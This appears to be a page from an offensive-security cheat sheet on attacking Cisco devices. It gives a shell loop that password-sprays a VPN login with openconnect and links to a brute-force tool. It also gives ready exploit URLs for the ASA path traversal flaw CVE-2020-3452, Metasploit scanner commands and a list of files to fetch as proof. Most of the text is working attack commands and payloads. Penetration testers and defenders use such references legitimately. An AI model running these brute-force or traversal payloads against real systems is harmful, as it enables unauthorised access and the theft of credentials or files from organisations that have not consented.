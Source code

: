 # Cisco




## Brute Force Authentication

- [https://github.com/R3dy/ciscobruter](https://github.com/R3dy/ciscobruter)

Manually in a dirty way:

```
$ for user in `cat users.txt`; do echo 'Passw0rd!' | sudo openconnect vpn.contoso.com --user=$user --passwd-on-stdin --servercert=pin-sha256:<BASE64> | tee -a openconnect.log; done
```




## ASA Path Traversal

**CVE-2020-3452**

Check manually:

```
https://cisco.example.com/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
https://cisco.example.com/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

Check with MSF:

```
msf > use auxiliary/scanner/http/cisco_directory_traversal
msf > set RHOSTS file:cisco.txt
msf > run
```

Potentially existent files to prove the vulnerability:

```
apcf
app_index.html
appstart.js
appstatus
ask.html
auth.html
blank.html
ced.html
cedf.html
cedhelp.html
cedlogon.html
cedmain.html
cedportal.html
cedsave.html
clear_cache
color_picker.html
color_picker.js
common.js
commonspawn.js
connection_failed_form
cookie
custom
do_url
files
gp-gip.html
help
home
http_auth.html
include
lced.html
localization_inc.lua
logo.gif
logon.html
logon_custom.css
logon_forms.js
logon_redirect.html
logout.html
no_svc.html
noportal.html
nostcaccess.html
ping.html
pluginlib.js
portal.css
portal.html
portal.js
portal_ce.html
portal_custom.css
portal_elements.html
portal_forms.js
portal_img
portal_inc.lua
preview.html
relayjar.html
relaymonjar.html
relaymonocx.html
relayocx.html
sdesktop
sess_update.html
session.js
session_expired
session_password.html
shshim
svc.html
test_chargen
tlbr
tunnel_linux.jnlp
tunnel_mac.jnlp
ucte_forbidden_data
ucte_forbidden_url
user_dialog.html
useralert.html
win.js
wrong_url.html
```
